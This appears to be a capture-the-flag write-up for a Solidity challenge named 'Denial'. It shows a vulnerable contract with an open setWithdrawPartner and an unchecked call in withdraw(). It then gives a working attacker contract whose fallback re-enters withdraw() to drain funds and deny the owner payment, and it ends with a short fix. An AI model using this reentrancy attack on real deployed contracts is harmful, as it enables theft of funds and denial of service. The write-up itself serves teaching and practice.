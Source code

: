 **Description**

In this challenge, we have a contract with funds that can be withdrawn by the owner and any partner; the goal is to have funds within the contract that cannot be withdrawn.

Let's take a look at the code:

```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

First, we can see that the `setWithdrawPartner` method is accessible to everyone; thus, anyone can modify the `partner` variable to get funds whenever the `withdraw` function is invoked.

Also, the `withdraw()` function is vulnerable to reentrancy, and when the contract's balance drops below 100 Wei , the `amountToSend` variable will always round to zero.

**Attack Scenario**

First, we are going to deploy our attacker's contract, which will add itself as a withdraw partner and then try to withdraw from the contract. The function will then try to send native coin to the partner using the `call` function, then the fallback function of the partner will be executed, which will call the withdraw function once again, and the process continues while the contract is greater than or equal to 100.

The code will look something like this.

```solidity=
pragma solidity 0.8.0;

interface IDenial{
  function withdraw() external;
}

contract attack {

  address public instance;
  address public player;
  constructor (address _instance, address _player)
  {
    instance = _instance;
    player = _player;
  }

  function attackhh() external
  {
    IDenial(instance).withdraw();
  }

  function withdraw() external
  {
    payable(player).transfer(address(this).balance);
  }
  fallback() payable external{
    if (instance.balance >= 100)
      IDenial(instance).withdraw();
  }
}
```

This way, the owner will not get any ether, and it will still have some of it locked down.

**Recommendatiom**

Consider adding access control to the `setWithdrawPartner` function and adding a reentrancy guard to functions that use the `call` function.